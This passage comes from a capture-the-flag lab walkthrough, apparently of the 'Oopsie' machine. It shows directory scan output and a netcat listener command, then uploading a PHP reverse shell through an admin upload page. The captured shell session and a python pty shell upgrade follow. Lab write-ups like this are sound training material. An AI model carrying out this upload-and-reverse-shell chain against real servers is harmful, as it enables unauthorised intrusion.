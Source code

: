 ```
[18:46:44] 403 -  276B  - /js/
[18:46:47] 403 -  276B  - /server-status
[18:46:47] 403 -  276B  - /server-status/
[18:46:47] 301 -  311B  - /themes  ->  http://10.10.10.28/themes/
[18:46:47] 403 -  276B  - /themes/
[18:46:48] 301 -  312B  - /uploads  ->  http://10.10.10.28/uploads/
[18:46:48] 403 -  276B  - /uploads/

Task Completed
```

This line:

    [18:46:48] 301 -  312B  - /uploads  ->  http://10.10.10.28/uploads/

Has what we want.

Start nc listener:

    nc -nvlp 1234

Time to upload a php file.

Upload `payload/test.php` on page <http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads&action=upload> and go to `http://10.10.10.28/uploads/test.php`. Should see a marquee!

Then do the same with `shell.php`!

Post-upload success, we have shell!

```
┌─[vagrant@vagrant-virtualbox]─[~]
└──╼ $nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.245] from (UNKNOWN) [10.10.10.28] 33894
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 01:05:18 up  2:58,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ ip a | grep inet
    inet 127.0.0.1/8 scope host lo
    inet6 ::1/128 scope host 
    inet 10.10.10.28/24 brd 10.10.10.255 scope global ens160
    inet6 dead:beef::250:56ff:feb9:1fb5/64 scope global dynamic mngtmpaddr 
    inet6 fe80::250:56ff:feb9:1fb5/64 scope link 
```

## Upgrade shell

Run 

    python3 -c 'import pty; pty.spawn("/bin/bash")'
    